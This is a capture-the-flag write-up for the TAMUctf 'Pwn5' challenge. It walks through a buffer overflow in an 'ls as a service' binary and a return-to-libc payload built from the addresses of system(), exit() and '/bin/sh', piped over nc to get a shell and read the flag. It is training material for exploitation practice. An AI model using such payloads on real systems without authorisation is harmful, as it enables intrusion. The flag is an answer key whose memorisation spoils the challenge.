 # Pwn5
Pwn

## Challenge 

nc pwn.tamuctf.com 4325

Difficulty: medium

[pwn5](pwn5)

## Solution

Same as Pwn2, but now we have a char limit. We are only allowed 3 chars.

	$ nc pwn.tamuctf.com 4325
	ls as a service (laas)(Copyright pending)
	Version 2: Less secret strings and more portable!
	Enter the arguments you would like to pass to ls:
	ABCD
	Result of ls ABC:

However, notice that it is still vulnerable to buffer overflow

	# pwn cyclic 50 | strace ./pwn5
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x66616161} ---

	# pwn cyclic -l 0x66616161
	17

We can try a return-to-libc attack to get it to run a shell.

### return-to-libc attack

> Reference:
> https://bitvijays.github.io/LFC-BinaryExploitation.html

Find address of system() and exit() function

	(gdb) info add system
	Symbol "system" is at 0x804ee30 in a file compiled without debugging.

	(gdb) info add exit
	Symbol "exit" is at 0x804e330 in a file compiled without debugging.


Try payload without parameters

	# python -c 'from pwn import *; print cyclic(17) + p32(0x0804ee30)' | ./pwn5
	ls as a service (laas)(Copyright pending)
	Version 2: Less secret strings and more portable!
	Enter the arguments you would like to pass to ls:
	Result of ls aaa:
	ls: cannot access 'aaa': No such file or directory
	sh: 1: : not found
	Segmentation fault

So it works, but we need to pass a parameter of a string. This is so we can execute it like system("/bin/sh") and get a shell.

In hopper disassembly, we see a static string in the memory

		aBinsh:
	080bc140         db         "/bin/sh", 0

---

So the format for our payload is as follows:

	[17 bytes]  JUNK: fill buffer
	[4 bytes]   0x0804ee30: return to system() address
	[4 bytes]   0x0804e330: return to exit() after executing system() 
	[4 bytes]   0x080bc140: parameter 1 of system()

Run final payload

	$ SCRIPT='from pwn import *; print cyclic(17) + p32(0x0804ee30) + p32(0x0804e330) + p32(0x080bc140)'
	$ # (python -c "$SCRIPT"; cat) | nc pwn.tamuctf.com 4325
	
	ls as a service (laas)(Copyright pending)
	Version 2: Less secret strings and more portable!
	Enter the arguments you would like to pass to ls:
	Result of ls aaa:

	ls -la
		total 728
		drwxr-xr-x 1 root    root      4096 Feb 19 20:47 .
		drwxr-xr-x 1 root    root      4096 Feb 23 22:23 ..
		-r--r--r-- 1 pwnflag pwnflag     32 Feb 19 20:46 flag.txt
		-rwsr-xr-x 1 pwnflag pwnflag 730072 Feb 19 20:46 pwn5
	cat flag.txt
		gigem{r37urn_0r13n73d_pr4c71c3}

## Flag

	gigem{r37urn_0r13n73d_pr4c71c3}
